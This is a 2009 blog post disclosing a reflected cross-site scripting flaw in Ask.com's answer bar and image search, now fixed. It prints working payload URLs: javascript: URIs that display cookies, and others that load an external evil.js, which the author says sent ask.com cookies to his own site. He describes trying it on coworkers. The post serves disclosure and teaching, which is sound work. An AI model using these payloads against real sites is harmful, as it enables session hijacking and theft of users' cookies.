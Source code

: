 ```yaml
---
date: '2009-03-04 14:30:42'
layout: post
slug: answer-bar-xss
status: publish
title: Ask.com Answer Bar XSS
wordpress_id: '126'
categories:
- Computers
---
```


Last month, [Ask.com](http://www.ask.com/) introduced a new feature called the answer bar. It's an annoying iframe that shows up when you click on most search results. The answer bar obscures the real URI in the address bar, and you have to accept cookies to disable it. But the purpose of this post isn't to vent; it's to explain how until today, the answer bar was vulnerable to cross-site scripting attacks. 

Search result links look like this: (the answer bar now checks referrers so even copy-pasting won't work)

`http://www.ask.com/bar?q=ask&page;=1&qsrc;=0&zoom;=&ab;=0&u;=http://google.com`

The URI param wasn't checked. Any URI scheme was allowed, including javascript: and data:. JavaScript in the URI was run in ask.com's security context. [This link worked until very recently.](http://www.ask.com/bar?q=ask&page=1&qsrc=0&zoom=&ab=0&u=javascript:document.write(%22%3Cscript%3Ealert(document.cookie)%3C/script%3E%22);) Once I knew I could run arbitrary JavaScript, I wrote a proof of concept.

For a demonstration, I asked some coworkers to make sure they were logged in to Ask.com, then click [here](http://tinyurl.com/cwd3uq). TinyURL redirects to...

`http://www.ask.com/bar?q=ask&page;=1&qsrc;=0&zoom;=&ab;=0&u;=javascript:document.write(%22%3Cscript%20src= \%22http://geoff.greer.fm/evil/evil.js?cachebuster=Math.random()\%22%3E%3C/script%3E%22);`

...which downloaded and ran [evil.js](http://geoff.greer.fm/evil/evil.js). Evil.js sent ask.com cookies to my site, then added an item to the user's [MyStuff](http://mystuff.ask.com/) saved results. The MyStuff item linked to [everyone's cookie info](http://geoff.greer.fm/evil/suckers.php).

It's a good thing Ask doesn't have any useful features, otherwise this vulnerability would be newsworthy. Instead it's just XSS practice for me and another security mistake by Ask. Ask deployed the answer bar on February 5th. E-mails were sent, tickets were filed, and it was fixed today, March 4th. Of course, that one bug is the [tip of the iceberg](http://www.xssed.com/search?key=ask.com). Thanks to [Paul](http://journal.paul.querna.org/) for pointing me to that site.

Edit: Image search still has this bug. 
Edit2: These links no longer work because Ask added HTTP referrer checks to image search. 

This will show your ask.com cookies:

[`http://images.ask.com/fr?q=blah&desturi;=javascript%3Adocument.write%28%22%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E%22%29&fm;=i`](http://images.ask.com/fr?q=blah&desturi=javascript%3Adocument.write%28%22%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E%22%29&fm=i)

And this will demonstrate evil.js if you are logged in to MyStuff:

[`http://images.ask.com/fr?q=blah&desturi;=javascript:document.write(%22%3Cscript%20src=\%22http://geoff.greer.fm/evil/evil.js?cachebuster=Math.random()\%22%3E%3C/script%3E%22);&fm;=i`](http://images.ask.com/fr?q=blah&desturi=javascript:document.write(%22%3Cscript%20src=\%22http://geoff.greer.fm/evil/evil.js?cachebuster=Math.random()\%22%3E%3C/script%3E%22);&fm=i)

If there is one thing you should learn from this, it is: **sanitize**.
